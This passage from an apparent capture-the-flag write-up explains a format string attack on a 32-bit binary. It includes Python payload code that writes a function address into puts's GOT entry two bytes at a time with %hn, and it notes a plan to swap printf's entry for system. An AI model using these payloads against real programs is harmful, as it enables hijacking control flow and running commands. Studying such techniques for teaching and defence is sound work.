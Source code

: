 Output: 

![Screenshot from 2019-10-15 16-44-12](https://user-images.githubusercontent.com/37578272/66837077-16870f80-ef6b-11e9-8224-909efcecca0e.png)



Hmm, that's interesting. Similarly, if we write **printf("%134514091d", var)** we'll  have a so small argument/input and at the same time a huge output. 
So, we can write to memory an address like 0x080485ab. But, it takes time to print so many spaces. We are engineers and we can find a faster way to do this. 
We can write two bytes at a time. So first 85ab and then 0804. 
Before that, ofcourse we have to follow the same procedure as the previous challenge with format string attack:
  - add to the input the address that we want to overwrite
  - and then find when we hit this address. 
  
When we find those info we can start:

```python 
VULN = 0x080485ab
PUTS_PLT = 0x0804a01c
BEFORE_SYS = 0x80485dc
SYS_PLT = 0x804a020
SYSTEM = 0xf7e0fc00
PRINT_PLT = 0x804a010

payload1 = ''
payload1 += struct.pack("I", PUTS_PLT)
payload1 += struct.pack("I", PUTS_PLT+2) # this is the address for the next 2 bytes : 0804
payload1 += "%7$34211x" # 85ab =  34219 (Decimal) and we subtract 8 because we wrote 2 addresses before(8 bytes)
payload1 += "%7$hn"  # "7" is the times we want to print %x to find the address we want to modify. With 7$ we can hit it immediately.

# e.g. 
# int var1 = 1;
# int var2 = 2;
# printf("%2$d", var1, var2) will print '2'. 
# 'h' before n means to write only two bytes. Search it.
```

Great, we have 85ab inside puts@got.plt. 
We now want to write 0804 in PUTS_PLT + 2 but we've already wrote so many characters that %n alone will write a number bigger than 0804. 
What do you say about writing 10804? To do this, we first want to know how many characters we've already typed.
So, first we write something like : 
```python
payload1 += "%8$x"
payload1 += "%8$hn"
```
and then we have to subtract the number we see in the higher two bytes of got.plt address from 10804 to find the right number of spaces to add.

Exactly the same we have to do to change printf_plt address with system address. That's a version of the exploit. I have two versions in the repository.
The following makes use of pwntools.
